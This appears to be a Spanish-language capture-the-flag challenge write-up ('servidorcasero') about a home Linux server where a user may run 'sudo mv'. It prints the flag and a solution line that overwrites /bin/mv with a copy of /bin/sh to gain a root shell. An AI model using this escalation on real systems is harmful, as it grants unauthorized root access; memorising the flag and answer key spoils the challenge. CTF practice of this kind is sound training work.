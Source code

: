 # Nombre: `servidorcasero`
### Dificultad: `fácil`
### Categoría: `misc`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{sud03rs_3s_p3l1gr0s0!}`

### Descripción:
Camilo me pidió que le montara un servidor linux en un computador viejo para poder guardar películas. No es muy computín, así que le dejé todo listo y le enseñé un solo comando que necesita para mover las películas cuando las descarga: `sudo mv`. Dudo que alguien pueda escalar a root con eso. `nc servidorcasero.dcctf.xyz 80`

La flag está en /root/flag.txt y solo es legible por root.

# Hint 1:
sudoers

# Solución:
El user camilo tiene sudo perms para /bin/mv. Hay muchas soluciones posibles. Un ejemplo: `cd tmp; cp /bin/sh .; sudo /bin/mv sh /bin/mv; sudo /bin/mv;` para escalar a root, y luego se puede leer la flag.
